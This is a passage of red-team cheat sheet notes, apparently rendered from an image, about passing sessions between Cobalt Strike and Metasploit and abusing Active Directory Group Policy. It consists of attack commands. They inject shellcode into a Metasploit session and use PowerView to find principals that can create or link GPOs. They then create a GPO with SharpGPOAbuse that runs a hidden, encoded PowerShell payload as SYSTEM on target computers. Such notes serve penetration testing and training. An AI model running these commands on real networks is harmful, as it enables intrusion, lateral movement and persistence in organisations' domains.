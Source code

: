 ```
# setup msf handler & create new CS listener to point to msf handler
beacon> spawn msf-listener
[...]
```

MSF -> CS

```
# In CS, Attacks -> Packages -> Payload Generator -> Raw
msf5> use post/windows/manage/shellcode_inject
msf5> set session 1
msf5> set shellcode /root/payload.bin
msf5> run
```

## GPO

Enumerate SIDs that can create new GPOs

```
# get SID
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=vault,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

# convert SID
beacon> powerpick ConvertFrom-SID S-1-5-21-2765823697-1816233505-1834004910-1706
[...]
```

Enumerate principals that can write to GP-Link

```
beacon> powershell-import /tools/PowerSploit/Recon/PowerView.ps1
beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

# find computers
beacon> powerpick Get-DomainComputer | ? { $_.DistinguishedName -match "OU=1868" -or $_.DistinguishedName -match "OU=5415" } | select DnsHostName
```

Create new GPO

```
# new
beacon> powershell New-GPO -Name 'Likesss' | New-GPLink -Target 'OU=1668,OU=Workstations,DC=vault,DC=io'
[...]

# configure
beacon> execute-assembly /tools/SharpGPOAbuse.exe --AddComputerTask --TaskName "Likesss" --Author NT AUTHORITY\SYSTEM --Command "cmd.exe" --Arguments "/c powershell -nop -w hidden -enc SQBF[...]ACkA" --GPOName "Likesss"
```
